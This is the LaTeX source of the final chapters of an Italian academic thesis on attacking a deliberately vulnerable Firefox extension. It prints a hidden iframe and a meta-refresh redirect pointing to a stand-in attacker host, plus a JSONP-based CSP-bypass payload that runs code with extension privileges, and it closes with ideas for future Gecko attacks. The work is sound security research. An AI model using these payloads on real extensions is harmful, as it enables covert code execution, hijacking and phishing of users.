        \subsection{Script persistente}
            L'attaccante potrebbe non essere interessato agli api accessibili dal codice iniettato ma
            alla frequenza con cui viene eseguito o alla sua persistenza sulla macchina della vittima, 
            in questi termini si pensi ai crypto-miner o agli ad-ware, programmi che necessitano di 
            rimanere in esecuzione quanto piu a lungo possibile.
            Non è raro trovare link ingannevoli che conducono ( piu o meno
            volontariamente) la vittima su una pagina web ospitante \JS malevolo, ma tutti questi malware
            si imbattono nel problema della volatilità della pagina ospite che potrebbe venir chiusa in
            qualsiasi momento. Negli anni sono state sviluppate tecniche per celare la finestra agli occhi
            dell'utente cercando di mantenerla attiva il più a lungo possibile (si pensi ai pop-under), ma
            una estensione vulnerabile che visualizzi di frequente dati immagazzinati in uno storage 
            persistente fornirebbe agli sviluppatori di malware un modo piu silenzioso e robusto di
            archiviare link ai propri script.\\
            Il \refCode{code:iframe-nascosto} mostra il codice html per iniettare un \iframe{} invisibile
            all'utente contenente una pagina che immaginiamo svolga un qualche task malevolo a lungo termine.

            \begin{lstlisting}[label=code:iframe-nascosto]
    <iframe 
        src=http://www.attacker.xyz/task.html 
        style="position: absolute; width:0; height:0; border:0;" >
    </iframe>
\end{lstlisting}

            Dopo essere stato inviato allo script in background, il payload viene salvato nella storage ed
            iniettato in modo automatico nella finestra della sidebar ad ogni apertura. Nell'ipotesi che
            la sidebar venga aperta almeno una volta per ogni sessione di utilizzo del browser, l'attaccante
            avrà la quasi certezza che il task malevolo verrà eseguito con frequenza.

        \subsection{Redirect della pagina}
            Seppure il tag \meta{} possa sovrascrivere la CSP della pagina, nella \refSection{sec:attaccando-vuln-bypass-meta}
            sono state discusse le ragioni per cui non sia possibile nel contesto delle estensioni, ma
            nonostante cio il tag \meta mi ha permesso di ottenere un attacco di Denial Of Service sulla finestra 
            della sidebar. Oltre alla chiave \code{"content-security-policy"}
            l'attributo \code{http-equiv} accetta un'altro pseudo-header HTTP, \code{"refresh"}. La chiave
            \code{"refresh"} impone alla pagina di essere ricaricata o reindirizzata su un'altro dominio dopo
            un periodo di timeout arbitrario, la sintassi appare così:
            \begin{lstlisting}[label=code:sidebar-meta-refresh-example,numbers=none]
<meta http-equiv="refresh" content="1; http://www.attacker.xyz/" >

\end{lstlisting}
            La riga precedente si traduce come: "attendi 1 secondo, poi reindirizza la pagina sull'URL 
            \code{'http://www.attacker.xyz/'}".
            Usando questa direttiva è possibile reindirizzare qualsiasi finestra verso un URL arbitrario,
            nel caso di \vuln significa che la pagina della sidebar può essere resa inutilizzabile fino a
            quando il payload non avrà lasciato l'archivio dell'estensione. La figura \ref{fig:sidebar-meta-refresh-1}
            mostra gli effetti del \refCode{code:sidebar-meta-refresh-example} iniettato nella sidebar.

            \begin{figure}
                \centering
                
\includegraphics[width=0.8\textwidth]{sidebar-meta-refresh-1.png}
                \caption{Dirottamento della finestra sidebar verso il sito dell'attaccante}
                \label{fig:sidebar-meta-refresh-1}
            \end{figure}

            Per quanto possa sembrare innocuo, sotto le giuste condizioni questo payload è capace di
            nascondere delle insidie. Seguono alcuni possibili utilizzi in diversi scenari:
            
            \subsubsection{DOS della pagina di background}
                Supponiamo che il punto di iniezione non si trovi nella UI dell'estensione ma nel
                codice degli script di background. Anch'essi sono dotati di un oggetto \code{window}
                associato ad una finestra non visibile all'utente ma comunque presente ed oggetto 
                globale della pagina. Si prenda come esempio il \Listato{code:background-page} che
                mostra il contenuto del \file{background/bgPage.html} di \vuln{}, la pagina descritta
                da tale codice carica gli script di background ma non viene mai visualizzata.

                \begin{lstlisting}[label=code:background-page]
    <!DOCTYPE html>
    <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <script src="../shared/archive.js"></script>
            <script type="module" src="bgMain.js"></script>
            <title>Background script window page</title>
        </head>
        <body>
            
        </body>
    </html>
                \end{lstlisting}

                Sotto queste condizioni, una iniezione riuscita porta al reindirizzamento della pagina
                di background e l'interruzione dei suoi script, negando qualsiasi tipo di servizio a
                sidebar e content-script dell'estensione. 

            \subsubsection{Spoofing della UI}
                Non tutte le estensioni sono innocue come \vuln{}, alcune estensioni trattano dati
                sensibili come crypto-wallet, password manager e sicurezza del browser e spesso
                richiedono almeno un passo di configurazione attraverso la pagina delle opzioni 
                (vedi \refSection{sec:anatomia_di_una_web_extension} ). Codice vulnerabile come 
                quello di \vuln{}, collocato su interfacce grafiche di importanza critica potrebbe
                non essere sufficiente per eseguire \JS privilegiato o rubare i dati dallo storage,
                ma grazie al tag \meta sarebbe possibile rimpiazzare del tutto la finestra con
                una identica ma controllata dall'attaccante.


            \subsection{Bypass via JSONP}
                \subsubsection{Che cosa è JSONP}
                Prima che il meccanismo CORS venisse integrato nei browser, la Same-Origin Policy (vedi \refSection{sec:sicurezza-script-same-origin-policy}) 
                impediva la lettura di richieste cross-origin effettuate da codice \JS{}; questa politica ostacolava
                lo scambio di dati JSON tra domini diversi e i programmatori front-end dovettero trovare una
                alternativa. La SOP non ostacolava i tag \script{} e \img{}, ma leggere i dati ottenuti non era
                comunque possibile, quindi si pensò di creare endpoint che, invece dei dati grezzi, restituissero
                un file javascript contenente l'invocazione di una funzione e i dati richiesti passati come argomento.
                A questo punto il programmatore front-end avrebbe iniettato nella propria pagina un tag \script{}
                impostando l'endpoint dell'api come sorgente del file richiesto; al ricevimento della risposta 
                da parte dell'api, il browser avrebbe eseguito il contenuto dello scrip, invocando la funzione.
                Il \refCode{code:JSON-response-example} mostra i dati JSON ottenuti dall'api fittizio
                \code{http://example/users?format=json} a fronte di una richiesta; se la pagina web fosse
                same-origin con l'api, il contenuto della risposta verrebbe interpretato dal browser e restituito
                allo script sottoforma di stringa, invece se le origini delle due parti sono cross-origin la richiesta
                termina con un errore e la pagina web non ottiene i dati.\\

                \begin{lstlisting}[
                    label=code:JSON-response-example,
                    caption={corpo di una risposta ricevuta dall'api JSON: \code{http://example/users?format=json}}
                ]
    [
        {id: 1, name: 'user01'},
        {id: 2, name: 'user02'}
    ]
                \end{lstlisting}

                Supponiamo ora che lo stesso endpoint fornisca un api JSONP, invece di effettuare la richiesta
                programmaticamente, lo script in esecuzione sulla finestra inietta nella propria pagina un
                elemento \script fatto in questo modo: 
                \begin{lstlisting}[numbers=none]
<script 
    src=http://example/users?format=jsonp&callback=frontendFunction >
</script>
                \end{lstlisting}
                dove il parametro \code{"callback"} nell'URL indica all'api il nome della funzione che dovrà essere
                invocata nel file di risposta (e gia definita dal programma front-end). Il \refCode{code:JSONP-response-example}
                mostra il file di risposta ottenuto.

                \begin{lstlisting}[
                    label=code:JSONP-response-example,
                    caption={corpo di una risposta ricevuta dall'api JSONP: \code{http://example/users?format=jsonp\&callback=forntendFunction}}
                ]
    frontendFunction([
        {id: 1, name: 'user01'},
        {id: 2, name: 'user02'}
    ])
                \end{lstlisting}

                Con l'integrazione di CORS, JSONP è diventata una tecnologia superata, ma alcuni api importanti
                lo supportano ancora per retrocompatibilità con le applicazioni legacy. Per esempio google
                espone un api che restituisce opzioni di auto-completamento di query, accessibile dall'URL:
                \begin{lstlisting}[numbers=none]
    http://google.com/complete/search?client=firefox&q=YOURQUERY
                \end{lstlisting}
                Da questa richiesta si ottiene l'array JSON mostrato nel \refCode{code:JSON-response-google}.

                \begin{lstlisting}[
                    label=code:JSON-response-google, 
                    caption={JSON resituito dal google api passando \code{YOURQUERY} come valore del parametro \code{q=}},
                    numbers=none
                    ]

    ["YOURQUERY",["your query","yourquery s.r.o"],[],{"google:suggestsubtypes":[[512,19,10],[30,19]]}]
                \end{lstlisting}

                Non mi soffermerò sull'interpretazione dei dati in quanto superflui ai fini di questo articolo.
                Lo stesso endpoint permette di ottenere gli stessi dati in formato JSONP, aggiungendo alla query
                di richiesta l'attributo \code{jsonp=} seguito dall'identificatore della funzione che elaborerà
                i dati. Il \refCode{code:JSONP-response-google} mostra la risposta JSONP dell'api, alla query di
                richiesta precedente è stato appeso l'argomento \code{jsonp=myFunction}

                \begin{lstlisting}[
                    label=code:JSONP-response-google, 
                    caption={JSON resituito dal google api passando \code{YOURQUERY} come valore del parametro \code{q=}
                            e \code{myFunction} come valore del parametro \code{jsonp=}},
                    numbers=none
                    ]

    myFunction(["YOURQUERY",["your query","yourquery s.r.o"],[],{"google:suggestsubtypes":[[512,19,10],[30,19]]}])

                \end{lstlisting}


                \subsubsection{Eseguire codice arbitrario in \vuln}
                Supponiamo adesso che vuln abbia bisogno di comunicare con gli api google e pertanto il
                suo \manifest{} deve ridefinire la Content Security Policy dell'estensione in modo da
                non bloccare queste richieste. Il \refCode{code:vuln-manifest-google} mostra tale
                modifica della voce \code{"content\_security\_policy"}.

                \begin{lstlisting}[label=code:vuln-manifest-google,caption={Voce \code{"content\_security\_policy"} nel \manifest{} di \vuln{}}]
"content_security_policy":"script-src 'self' https://www.google.com;"
                \end{lstlisting}

                Sotto queste condizioni è possibile costruire un payload che carichi
                codice \JS eseguito nello stesso compartimento dell'estensione. 
                Per farlo servono:
                \begin{enumerate}
                    \item Un tag \script{} che carichi il codice JSONP ottenuto dall'api google.
                    \item Un codice JSONP di callback costruito "correttamente"
                    \item Un tag \iframe{} che racchiuda il tag \script{} nel suo campo \code{srcdoc}
                            per bypassare la limitazione di \attr{innerHTML} ed eseguire il codice
                            JSONP sotto la stessa origine dell'estensione.
                \end{enumerate}
                Con l'avverbio "correttamente" si intende una stringa che, combinata ai dati
                introdotti dall'endpoint, sia eseguibile dal browser e non violi le condizioni
                d'uso dell'api. È raro che gli endpoint JSONP accettino qualsiasi carattere 
                fornito dal client, in questi casi è necessario ricorrere ad altre tecniche per
                trasformare la stringa di codice in una stringa equivalente, priva dei caratteri
                proibiti. La trattazione di queste tecniche è lasciata in sospeso poiché fuori dagli
                obbiettivi dell'articolo. Per il lettore interessato all'argomento, rimando ad un
                articolo di Gareth Heyes in cui viene mostrato un esempio di sintassi \JS{} priva di caratteri
                alfa-numerici e parentesi \cite{gareth-heyes-js-no-alphanum}.\\
                La figura \ref{fig:sidebar-jsonp-injection} mostra il risultato dell'iniezioni di
                script JSONP nella sidebar di \vuln{} mentre il \refCode{code:JSONP-vuln-crafting} 
                mostra il frammento di codice usato dall'attaccante per costruire il payload inettato.
                
                \begin{lstlisting}[label=code:JSONP-vuln-crafting]
    
    callback = "alert(browser.extension.getURL([]%2b[]))//"     
    
    url =  "https://www.google.com/"
    url += "/complete/search?"
    url += "client=chrome&q=123&jsonp="
    url += callback  
    
    script = `<script src="${url}"></script>`
    ifr =  `<iframe srcdoc="${script}" ></iframe>`' 
    
    payload = ifr
                \end{lstlisting}

                \begin{figure}[ht]
                    \centering
                    
\includegraphics[width=0.8\textwidth]{sidebar-jsonp-injection.png}
                    \caption{Risultato di una iniezione JSONP nella sidebar di \vuln{}}
                    \label{fig:sidebar-jsonp-injection}
                \end{figure}

                Come si nota dal risultato, lo script iniettato mostra a schermo un popup
                che contiene l'url associato all'estensione, il codice di callback chiama
                infatti il metodo \code{browser.extension.getURL('')} del WebExtensionAPI
                ed accessibile solo alle estensioni. Si notino due importanti dettagli:
                il primo è l'argomento passato a \method{getURL}, si tratta della trascrizione
                in URL-encoding della stringa \code{[]+[]}, in \JS{} questo codice è equivalente
                alla stringa vuota; il secondo è la sequenza di caratteri \code{//} alla fine della
                callback, in \JS{} marcano un commento, ovvero indicano che tutti i caratteri
                a seguire non dovranno essere considerati dall'interprete; nel caso del payload
                il commento è necessario per tagliare via i dati inseriti dall'api affinché
                non provochino errori di compilazione.\\

                Seppure l'esempio mostrato sia innocuo, nelle giuste mani la possibilità di
                eseguire codice arbitrario potrebbe portare al danneggiamento del processo
                browser o addirittura alla compromissione del sistema, per il lettore interessato
                ad approfondire l'argomento rimando ad un interessante talk tenuto dal ricercatore
                Barak Sternberg durante la ventinovesima edizione della DEFCONConference \cite{barak-sternberg-browser-extensions}.




            % \subsection{Esecuzione di script da origini fidate} %%%%%% DOM clobbering e conflitti di namespace


\chapter{Conclusioni}
\label{cap:conclusioni}
    La tesi ha indagato sulla progettazione del sistema di sicurezza di Firefox e sulle difese
    specifiche in ambiente WewbExtension, approfondendo le strutture coinvolte e le loro funzioni.
    Ha poi messo alla prova tali misure attaccando una estensione intenzionalmente vulnerabile
    attiva nel browser della vittima, evidenziando come l'ambiente di sicurezza WebExtension richieda
    del lavoro congiunto con lo sviluppatore di estensioni per mantenere sicura l'installazione
    Firefox dell'utente.

    Nonostante gli obbiettivi della ricerca siano stati soddisfatti, c'è ancora molto lavoro da fare
    e le direzioni da prendere, plurime.
    Gli attacchi presentati in questa tesi erano mirati a bypassare le restrizioni di sicurezza
    utilizzando elementi definiti nell'HTML5 living standard e nel WebExtension Framework, ma 
    nessuno di essi ha bersagliato direttamente le strutture o le logiche interne al Web Engine Gecko.
    Articoli e report su attacchi diretti all'Engine esistono gia, oltre alla piattaforma BugZilla, un forum 
    gestito dalla Mozilla Foundation per riportare bug e vulnerabilità trovati nel codice di Gecko,
    ma trovare informazioni sul funzionamento interno di WebExtension risulta difficile.
    La documentazione ufficiale tratta il sistema di sicurezza ad alto livello, approfondisce le
    interfacce di programmazione WebExtension e C++, ma non approfondisce quali siano gli oggetti
    coinvolti nella gestione di queste strutture, né quali informazioni siano accessibili
    ai processi relativamente alle estensioni e poiché sono i processi a prendere decisioni
    sull'iniezione di uno script o meno, questa informazione potrebbe diventare utile. Si consideri
    anche che ogni ogni processo può salvare i dati dell'estensione in uno o più livelli di cache
    e molto spesso anche le strutture di gestione dell'estensione possiedono una qualche tipologia
    di cache interna e tutti questi spazi di archiviazione devono rimanere sincronizzati.
    
    Un'altra tecnologia che questo articolo ha solamente menzionato è la Xray Vision (vedi \refSection{sec:sicurezza-xray-vision}).
    Si tratta di una misura di sicurezza dei contesti privilegiati che li proteggere da ridefinizioni
    degli oggetti \JS{} provenienti da contesti insicuri. Nel ciclo di vita delle pagine web c'è uno
    scambio continuo di oggetti tra contesti a differente livello di privilegio e una vulnerabilità
    in questo sotto-sistema semplificherebbe i tentativi di privilege escalation.

    \section{Spunti per attacchi futuri}
        Raccogliendo le informazioni date nei precedenti paragrafi, ecco alcune idee per successivi
        attacchi mirati al Gecko engine:
        \begin{itemize}
            \item \bold{Race condition} sulle chiamate agli api. Cosa succede se piu script effettuano scritture
                    e letture concorrentemente sullo stesso api quando sono collocati in processi diversi? E invece
                    nello stesso processo? E che cosa succede se il contesto d'esecuzione cambia durante il calcolo
                    di una chiamata? Dove finisce il risultato? Poiché il Parent Process ospita delle rappresentazioni
                    dei contesti attivi sugli altri processi, come viene notificato il cambiamento di contesto?\\
                    Queste domande potrebbero essere uno spunto di approfondimento sulle race-condition nel runtime
                    Gecko.

            \item \bold{Cache desync} sulle cache degli script. Come funziona il sistema di aggiornamento delle cache?
                    quali dati vengono memorizzati? Molte classi gestonali possiedono delle cache proprie per risparmiarsi
                    chiamate ai Servizi. Spesso queste classi popolano le cache ricavando dati da altre classi anche loro
                    dotate di cache. Uno dei dubbi che si solleva è se e quanto sia efficiente la propagazione di informazioni
                    nel sistema e come venga mantenuta l'integrità dei dati.

            \item \bold{Prototype Pollution}. Trovare punti di prototype pollution. Un punto di inizio 
                    potrebbero essere proprio le chiamate agli api che serializzano sottoforma di stringa
                    la catena di proprietà a cui lo script sta accedendo. Per esempio la ciamata a
                    \code{browser.runtime.getURL("page.html")} viene serializzata in un oggetto fatto piu o meno così:
                    \begin{lstlisting}
            {
                . . .
                path: "runtime.getURL",
                args: ["page.html"],
                . . .
            }
                    \end{lstlisting}
                    Sul lato Parent della comunicazione viene poi fatto il parsing dell'attributo \code{path}
                    per cercare l'implementazione reale della funzione. Errori nel sistema di parsing potrebbero
                    permettere di accedere a proprietà riservate dell'API.

            \item \bold{Bypass di Xray}. Xray è una misura pensata proprio per ostacolare tentativi di
                    prototype pollution e type juggling durante le interazioni tra i contesti, un bypass di
                    questa restrizione permetterebbe di promuovere oggetti \JS{} a livelli di privilegio
                    maggiori ed accesso ad api critici.\\
                    In molti punti del codice sorgente, il browser fa uso del getter \attr{wrappedJSObect} per
                    lenire Xray ed accedere ai contenuti reali della pagina, partire da questi frammenti di
                    codice potrebbe essere un buon inizio.

            \item \bold{Size overflow}. Ho fatto un semplice test nella console sviluppatore del browser, ho
                    assegnato ad un array una lunghezza di $2^{64}$ elementi. Prima di essere costretto a sopprimerlo,
                    il processo ospite aveva raggiunto 3Gb di utilizzo della memoria, e continuavano ad aumentare!
                    Ripetendo lo stesso test usando uno script di pagina web, ho ottenuto un errore sulla console
                    che mi informava della dimensione invalida dell'array, ed ho ricevuto lo stesso risultato
                    in \textit{extension-land}. È chiaro che gli sviluppatori mozilla siano consci dei rischi a cui
                    espongono i loro utenti, ma il codice dell'applicazione è vasto e si potrebbero trovare punti
                    vulnerabili.

            \item \bold{Estensioni built-in}. Firefox ospita estensioni preinstallate e alcune di esse vanno
                    direttamente o indirettamente a memorizzare dati provenienti dalla pagina o dall'utente.
                    Lo studio più approfondito di queste estensioni potrebbe aprire la strada ad attacchi di 
                    privilege-escalation nella \textit{extension-land} applicabili su ogni installazione Firefox.
        \end{itemize}

\printbibliography


\end{document}
%% END ARTICOLO